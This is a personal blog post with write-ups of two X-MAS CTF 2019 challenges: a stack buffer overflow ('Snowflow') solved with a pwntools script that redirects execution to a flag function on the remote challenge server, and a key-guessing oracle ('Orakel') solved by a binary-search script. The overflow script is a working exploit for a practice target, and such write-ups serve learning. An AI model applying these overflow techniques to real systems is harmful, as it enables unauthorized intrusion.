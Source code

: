 ```yaml
---
layout: post
title: XMas CTF
excerpt: "This is my first blog post and I'm writting it a while after the CTF has concluded however I need to start somewhere right? I wasn't able to contribute much to this CTF as I was preparing for finals. However, I did have a great time solving and attempting what I could and it was great to work with other members of redpwn."
categories: [XMasCTF'19]
tags: [pwn, ppc]
---
```

This is my first blog post and I'm writting it a while after the CTF has concluded however I need to start somewhere right? I wasn't able to contribute much to this CTF as I was preparing for finals. However, I did have a great time solving and attempting what I could and it was great to work with other members of redpwn.

### Pwn

#### Snowflow
```
Snow, snow, snow... there is snow everywhere! I'm feeling a little bit overwhelmed... or would I say overflowed?
```

Running a file check on the challenge we see that it is stripped which means there are no debugging symbols.
```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.  
2, for GNU/Linux 3.2.0, BuildID[sha1]=b96d5da6df4dc39b35bec7a8068b741d24999c3d, stripped
```

My second step was to open the binary in Ghidra. I saw that the main function had a buffer which could be overflowed. 
```
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
```

Looking at the other functions in the binary, I noticed a function at `0x401156` which contained `puts("X-MAS{REAL FLAG ON THE SERVER}");` Okay, looks like we just need to overflow to run this function which will display for us the real flag on the server. 

The first step was to determine the offset. As this is a 64 bit program, I use cyclic from pwntools and send a 512 length string. I attach GDB so that when it crashes I can look at the registers. For 64 bit pwn, RIP is not actually overflow, so I look at RSP for the offset. 

```
$rsp : 0x00007ffe59e19be8 → "aafaaagaaahaaa
```

I then use cyclic_find from pwntools to identify that the offset is 18. The last step is to add a 64 bit packed address of the function we want to execute which is easy using pwntools. My final solution script looks like this.

```python
from pwn import *  
  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./chall")  
  
#gdb.attach(r)  
  
r = remote("challs.xmas.htsp.ro", 12006)  
  
r.recvline()  
  
payload = ""  
  
#payload += cyclic(512)  
# offset is 18  
  
payload += "A" * 18  
  
payload += p64(0x401156)  
  
r.sendline(payload)  
  
r.interactive()
```

### PPC

#### Orakel
```
We have finally linked up with the famous Lapland Oracle, that knows and sees all!
Can you guess his secret word?

Remote server: challs.xmas.htsp.ro 13000
```

When connecting to the server, we see that we are given 1000 opportunities to guess the correct key. After brute spamming characters, I deemed the key length to be around 100 characters. This means our program needs to be quite efficient!

The first algorithm which came to mind was binary search. However, after failing to implementing it multiple  times I still couldn't get it to work. The trick was realizing that at each character, the "score" would firrst decrease, then increase if we went from a - > Z. I found an interesting article on how to find the minimum in such a sequence [here](https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/ "https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/"). 

In my solution, I also chose to optimize the searching by implementing a valueDict array which stored the searched strings for each length and their scores. This is a dynamic programming style approach which stops the program from wasting a search on something we already looked for. My final solution didn't cleanly recieve the flag, so I used `context.log_level = "debug"` to display all sent and recieved text to retrieve the flag. Below is my final solution which got the flag in ~800 attempts.

```python
from pwn import *
from time import sleep
import regex as re
import string

context.log_level = "debug"

r = remote("challs.xmas.htsp.ro", 13000)
r.recvuntil("Luck.")
r.recvline()

bestScore = 99999
attempts = 1

regexp = re.compile(r": (.*)")

def getScore(inpStr):
    global attempts
    attempts += 1
    r.sendline(inpStr)
    inpLine = r.recv()
    score = int(regexp.search(inpLine).group(1))
    return score

valueDict = {}

def getScoreEff(inpStr):
    global valueDict
    if(inpStr in valueDict):
        return valueDict[inpStr]
    else:
        retVal = getScore(inpStr)
        valueDict[inpStr] = retVal
        return retVal

r.sendline("A")
sleep(1)
r.recv()
r.recv()

# Begin search char by char assuming length max is 100

searchSpace = []
foundKey = ""
currScore = 99999

for i in range(65, 122 + 1):
    if i <= 90 or i >= 97:
        searchSpace.append(i)

for i in range(100):
    if currScore < 0:
        break
    # for each char
    low = 0
    high = len(searchSpace) - 1
    mid = 0

    while(low < high):

        mid = low + ((high - low) / 2)

        #print(str(low) + " " + str(mid) + " " + str(high))

        #lowScore = getScoreEff(chr(searchSpace[low]))
        midScore = getScoreEff(foundKey + chr(searchSpace[mid]))
        midScoreRight = getScoreEff(foundKey + chr(searchSpace[mid + 1]))
        #highScore = getScoreEff(chr(searchSpace[high]))

        #print(str(lowScore) + " " + str(midScore) + " " + str(highScore))

        if midScore < midScoreRight:
            high = mid
        else:
            low = mid + 1

    foundKey += chr(searchSpace[low])
    currScore = getScoreEff(foundKey)
    print(foundKey + " with score of: " + str(getScoreEff(foundKey)) + ", attempts: " + str(attempts))
    currScore = getScoreEff(foundKey)
    valueDict.clear()

    #print("Min found at: " + str(searchSpace[mid]) + ", with a value of: " + str(getScore(chr(searchSpace[mid]))))   

r.interactive()
```

## Concluding thoughts

Solving the few problems that I did was great, especially seeing my orakel script crank through the characters and the score lowering as it pressed onward. I do wish I had more time to spend on this CTF as we might have been able to place higher as a team.
